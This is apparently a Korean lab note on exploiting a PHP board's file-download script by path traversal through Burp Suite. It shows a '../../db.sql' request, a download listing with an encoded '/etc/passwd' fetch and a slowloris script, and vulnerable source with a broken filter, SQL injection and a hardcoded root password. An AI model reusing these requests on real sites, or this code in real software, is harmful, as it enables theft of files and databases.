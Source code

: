 

BURP 에서 홈페이지 다운로드 누르고 보면

```
GET /board/board_file_download.php?filename=../../db.sql HTTP/1.1 -> 으로 경로 바꿔주기
```

root@kali-04:~/Downloads# ls -l

```
total 156
-rw-r--r-- 1 root root   1670 Oct 22 15:43 %2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
-rw-r--r-- 1 root root    931 Oct 22 16:06 db.sql -> 여기
-rw-r--r-- 1 root root 149328 Oct  6 15:39 slowloris.py
```



[root@Linux-04 board]# vim board_file_download.php 

```
<?php
  $file_name = str_replace("../","",$_GET['filename']);
  $file_name = urldecode($_GET['filename']);
  $file_path = "./upload/$file_name";
  $file_size = filesize($file_path);


  $conn = mysqli_connect('localhost','root','P@ssw0rd','WebTest');
  $sql = "select filename from board where filename='$file_name'";
  $result = mysqli_query($conn, $sql);
  $return = mysqli_fetch_array($result);

  if($return['filename'] == $file_name)
  {
         header("Content-Type: application/x-octetstream");
         header("Content-Disposition: attachment; filename=".urlencode($file_name));
         header("Content-Transfer-Encoding: binary");
         header("Content-Length: $file_size");

          readfile($file_path);
  }
  else
  {
        echo "<script>alert('요청하신 파일을 다운로드 할 수 없습니다.');
                history.back();</script>";
        exit;
  }
 ?>

```





BURP 에서 on 하고 홈페이지에서 다운로드 누르면
